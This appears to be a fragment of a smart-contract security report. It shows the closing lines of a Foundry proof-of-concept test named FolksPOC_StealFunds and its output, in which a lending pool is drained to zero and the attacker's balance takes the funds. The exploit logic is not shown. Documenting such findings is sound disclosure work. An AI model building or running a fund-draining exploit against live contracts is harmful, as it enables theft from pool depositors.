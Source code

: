 ```solidity
        console.log("Hacker's balance after exploit: %s", hackerBalAfter);
        console.log("Pool's balance after exploit: %s", poolBalAfter);
    }
}
```

Output from test:
```js
Ran 1 test for test/FolksPOC_StealFunds.t.sol:FolksPOC_StealFunds
[PASS] testStealFunds() (gas: 5621522)
Logs:
  Hacker's balance before exploit: 100000000
  Pool's balance before exploit: 1387504545
  ---
  Hacker's balance after exploit: 1487504545
  Pool's balance after exploit: 0
```
